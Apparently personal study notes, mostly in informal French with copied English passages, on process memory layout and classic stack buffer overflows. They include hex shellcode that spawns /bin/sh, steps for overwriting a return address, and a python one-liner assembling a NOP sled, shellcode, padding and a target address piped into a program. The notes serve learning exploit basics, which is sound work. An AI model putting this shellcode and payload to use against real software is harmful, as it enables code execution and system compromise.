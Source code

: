 
Le computer run les programmes en tant que process le process ne sont pas tous actif en même il switch juste vite de process la mémoire elle est organisé comme ci-dessous :
![[Pasted image 20250309113059.png]]

- User stack contains the information required to run the program. This information would include the current program counter, saved registers and more information(we will go into detail in the next section). The section after the user stack is unused memory and it is used in case the stack grows(downwards)
    
- Shared library regions are used to either statically/dynamically link libraries that are used by the program
    
- The heap increases and decreases dynamically depending on whether a program dynamically assigns memory. Notice there is a section that is unassigned above the heap which is used in the event that the size of the heap increases.
    
- The program code and data stores the program executable and initialised variables.

On peut overwright l'adresse le registre qui conteint l'adresse de retour pour pointer vers l'adresse qu'on veut (oui c une dinguerie en vrai)

shell:

\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05

faut input ça dans une variable et faire pointer l'addresse de retour a cette endroit ou on a mis la variable (oui oui)

les étapes 
    Find out the address of the start of the buffer and the start address of the return address

    Calculate the difference between these addresses so you know how much data to enter to overflow

    Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address
NOP instruction en hexa = \x90

avec python : `python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”`

ex
`python -c “print(‘\x90’ * 30 +` `‘\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x``05’` `+`

`‘\x41’ * 60 +` 

`‘\xef\xbe\xad\xde’) | ./program_name`


`”`

